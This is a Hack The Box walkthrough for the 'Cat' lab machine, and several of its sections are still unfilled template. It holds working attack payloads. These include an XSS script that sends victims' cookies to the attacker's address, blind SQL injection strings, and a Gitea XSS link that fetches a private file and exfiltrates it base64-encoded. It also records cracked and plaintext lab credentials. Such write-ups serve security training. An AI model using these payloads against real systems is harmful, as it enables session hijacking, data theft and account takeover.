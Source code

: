### Hack The Box Writeup: Cat

## Overview

- **Machine Name**: Cat
- **Difficulty**: Medium
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: July 2025


## Tools Used

- **Enumeration**: Nmap, 
- **Exploitation**: \[e.g., Metasploit, Custom Python scripts\]
- **Privilege Escalation**: \[e.g., LinPEAS, Windows Exploit Suggester\]
- **Other**: \[e.g., Burp Suite, Wireshark\]

## Methodology

### Initial Enumeration

```bash
ping -c 1 10.10.11.53
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.11.53 -oG allPorts
namp -sCV -p22,80 10.10.11.53 -oN targeted

# Add url into /etc/hosts
whatweb http://cat.htb
nmap --script http-enum -p80 10.10.11.53 -oN webScan

# ans
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /.git/HEAD: Git folder

# We can use git-hack or gitdumper
https://github.com/lijiejie/GitHack

>
# IN the accept_cat.php, theres axel user. We must use cookie session to enter like axel user

```
```html
<script>fetch("http://10.10.14.48/?=cookie_value="+document.cookie);</script>

```

```bash
# Open a python server
python3 -m http-server 80

# ans
10.10.11.53 - - [10/Jul/2025 23:09:46] "GET /?=cookie_value=PHPSESSID=a22o9c74k52dal86flnotma7k1 HTTP/1.1" 200 -

# Replace the current cookie with the new one
# Send request to burpsuite (http://cat.htb/accept_cat.php) and change the request method to POST
```
![alt text](image.png)

### Exploitation


```bash
# We can use sql injection (sqlite) based on the accpt_cat.php

# code
  $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
  $pdo->exec($sql_insert);

# When we sen d the request, we found that we need to add CatID and Cat Name
```
![alt text](image-1.png)

```bash
# Sending the name and cat id
Connection: keep-alive
Cookie: PHPSESSID=a22o9c74k52dal86flnotma7k1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

catName=test&catId=3

```
### SQLI
```bash

INSERT INTO accepted_cats (name) VALUES ('test'||1/1||'')
INSERT INTO accepted_cats (name) VALUES ('test'||1/(substr((SELECT username FROM users limit 0,1),1,1)='a')||'')
# return code 200

INSERT INTO accepted_cats (name) VALUES ('test'||1/(substr((SELECT username FROM users limit 0,1),2,1)='x')||'')
# return code 200

# firtst user : axel

# We can create a python code to find users
```

### Python exploit
```bash

cculi668lhq38lqmn4efgpjjm2

users: axel,rosa,robert,fabian
passwords: rosa - ac369922d560f17d6eeb8b2c7dec498c

# we can decode the password with md5
https://hashes.com/en/decrypt/hash

ac369922d560f17d6eeb8b2c7dec498c:soyunaprincesarosa

# We can view logs
cat var/log/apache2/access.log


 x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [13/Jul/2025:01:32:12 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0""

axel - aNdZwgC4tI9gnVXv_e3Q

ssh axel@10.10.11.53
# ans

You have mail.
Last login: Fri Jan 31 11:31:57 2025 from 10.10.14.69

# To view the email, we can see the dir /var/mail

We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.

# We can use local  portforwarding to access
ssh axel@10.10.11.53 -L 3000:localhost:3000


```


### Privilege Escalation


```bash
gitea version 1.22

# exploiit 1.22 version
https://www.exploit-db.com/exploits/52077

# ans
## Steps to Reproduce
1. Log in to the application.
2. Create a new repository or modify an existing repository by clicking the Settings button from the `$username/$repo_name/settings` endpoint.
3. In the Description field, input the following payload:

    <a href=javascript:alert()>XSS test</a>

4. Save the changes.
5. Upon clicking the repository description, the payload was successfully injected in the Description field. By clicking on the message, an alert box will appear, indicating the execution of the injected script.

# First, we need to sign in like axel user
# Afte that, we need to create a repo with javascript code
# copy nada paste repo instructions and will see the xss injection of the dir

<a href=javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response => response.text()).then(data => fetch("http://10.10.14.48/?data="+btoa(data)))>XSS test</a>


http://localhost:3000/axel/pwn

echo -e "Subject: IMportant\n\nLook at this: http://localhost:3000/axel/test" | sendmail jobert@localhost



```


## Challenges Faced


## Lessons Learned




## References


---

*Written by edibuaer, July 2025. Feedback welcome at https://github.com/edibauer*
